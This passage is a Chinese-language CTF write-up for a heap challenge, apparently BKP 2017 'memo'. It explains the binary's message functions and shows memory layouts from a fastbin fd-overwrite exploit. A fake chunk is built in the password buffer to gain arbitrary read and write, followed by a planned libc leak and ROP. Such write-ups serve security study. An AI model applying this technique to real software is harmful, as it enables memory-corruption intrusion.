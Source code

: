 Edit message:

* 這邊會直接用 global buffer 上的 idx 所表示的值來決定要修改哪個 message，因此這邊只能修改最後一次留下的 message
* read size 是利用 global buffer 上的 size list

View message:

* 印出 message 內容
* 之後會拿來 leak libc address

Delete message:

* 一開始會問 index，但是並沒有做 0~4 的檢查，所以前面的 name or password 可以任意構造 address 來達到任意 `free`，不過這裡我不是利用這個方法。利用這個方法可參考 [Angelboy 學長](https://github.com/scwuaptx/CTF/blob/master/2017-writeup/bkp/memo.py)
* `free` 完之後，global list 會清成 0，因此沒有 **UAF**

Change password:

* 可以修改密碼，但是這邊我沒有用到，便不細說 

Quit:

* `puts` 後 return，後面會利用這邊的 return 跳到 ROP


## Exploit

前面名字隨便亂取，但是密碼稍微構造一下:

```
0x602a40:       0x4141414141414141      0x4141414141414141
0x602a50:       0x4141414141414141      0x0000000000000030
```

* `0x602a58` 的 `0x30` 是為了後面 overwrite fastbin 的時候，讓 `malloc(32)` return `0x602a60` 之後就可以做任意 leak 跟 任意 overwrite


接著 leave two messages，index 分別 0 and 1，size 都給 32，之後 global buffer 長這樣：

```
0x602a40:       0x4141414141414141      0x4141414141414141
0x602a50:       0x4141414141414141      0x0000000000000030
0x602a60:       0x0000002000000020      0x0000000000000000
0x602a70:       0x0000000000d41010      0x0000000000d41040
```

* `0x602a60` 的前 4 bytes 是 index0 msg size，後 4 bytes 就是 index1 msg size
* `0x602a70` 存的就是 index0 msg address，`0x602a78` 存的則是 index1 msg address


之後就要來 overflow，要達到任意 `malloc` 一塊空間，需要 overflow 一個已經 `free` 過的 fastbin chunk，由於 fastbin list 是 LIFO，因此先將 index1 msg `free` 掉，接著 `free` index0 msg，之後再來利用前面提到 size 超過 32 的 overflow，size 給他個 400，這樣他還是會 call `malloc(32)`，因此我們依舊能拿到跟先前 index0 msg 同一塊 chunk

這時候我們有 overflow 可以把 index1 msg struct 改寫掉，這邊我們是改寫他的 `fd` 這樣之後先 `malloc` 一次把正常的 chunk 拿走，第二次就會拿到我們填的 `fd` 的位置

overflow 過的 layout：

```
0xd41000:       0x0000000000000000      0x0000000000000031  # Original index0 msg chunk
0xd41010:       0x4141414141414141      0x4141414141414141
0xd41020:       0x4141414141414141      0x4141414141414141
0xd41030:       0x0000000000000000      0x0000000000000031  # Original index1 msg chunk
0xd41040:       0x0000000000602a50      0x000000000000000a  # 0x602a50 - fake chunk by password
0xd41050:       0x0000000000000000      0x0000000000000000
0xd41060:       0x0000000000000000      0x0000000000020fa1
```
